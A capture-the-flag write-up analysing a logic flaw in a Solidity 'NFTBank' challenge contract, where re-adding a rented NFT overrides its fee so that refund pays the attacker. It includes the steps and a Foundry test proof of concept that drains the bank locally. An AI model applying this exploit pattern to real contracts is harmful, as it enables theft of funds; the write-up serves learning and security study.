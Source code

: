# Analysis
  The bank allows rented NFT to be added again, which is the key to this challenge. Attacker can add that token with different fee, the old fee will be overridden, the `refund` will send arbitrary fee to the attacker, in this way attacker can drain all the balance .

# Steps
1. rent another Token 2
2. `addNFT(Token 2)` with 0 daily fee and 1000 gwei start fee(500 each for renting token 1/2. The fee values for Token 2 is overridden)
3. `getBackNft(Token 2)`, claim the owner of Token 2, for next step
4. `refund(Token 2)`, to get the 1000 gwei

# POC
```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

import "forge-std/Test.sol";
import {NFTBank} from "../src/NFTBank.sol";
import {ERC721} from "openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";

contract CryptoKitties is ERC721("CryptoKitties", "MEOW"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

contract NFTBankHack is Test {
	NFTBank bank;
	CryptoKitties meow;
	address nftOwner = makeAddr("nftOwner");
	address attacker = makeAddr("attacker");

	function setUp() public {
		vm.startPrank(nftOwner);
		bank = new NFTBank();
		meow = new CryptoKitties();
		for (uint i; i < 10; i++) {
			meow.mint(nftOwner, i);
			meow.approve(address(bank), i);
			bank.addNFT(address(meow), i, 2 gwei, 500 gwei);
		}
		vm.stopPrank();
	}


	function test() public {
		vm.deal(attacker, 1 ether);
		vm.startPrank(attacker);
		bank.rent{value: 500 gwei}(address(meow), 1);
		vm.warp(block.timestamp + 86400 * 10);

		//solution       

		bank.rent{value: 500 gwei}(address(meow), 2);
		meow.approve(address(bank), 2);
		bank.addNFT(address(meow), 2, 0 gwei, 1000 gwei);
		bank.getBackNft(address(meow), 2, payable(address(this)));
		meow.approve(address(bank), 2);
		bank.refund{value: 0 gwei}(address(meow), 2);


		vm.stopPrank();
		assertEq(attacker.balance, 1 ether);
		assertEq(meow.ownerOf(1), attacker);
	}
}


```
